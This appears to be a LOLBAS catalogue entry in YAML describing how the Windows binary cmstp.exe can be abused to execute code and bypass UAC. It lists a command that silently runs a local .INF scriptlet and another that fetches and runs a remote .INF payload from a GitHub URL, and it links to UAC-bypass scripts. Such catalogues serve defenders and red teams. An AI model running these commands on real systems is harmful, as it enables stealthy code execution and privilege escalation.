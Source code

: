 ```yaml
---
Name: Cmstp.exe
Description: Execute, UACBypass
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: 'Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.'
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: 'Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.'
Full Path:
  - C:\Windows\system32\cmstp.exe
  - C:\Windows\sysWOW64\cmstp.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/NickTyrer/status/958450014111633408
  - https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
    (UAC Bypass)
  - https://github.com/hfiref0x/UACME
Notes: Thanks to Oddvar Moe - @oddvarmoe, Nick Tyrer - @NickTyrer
---
```

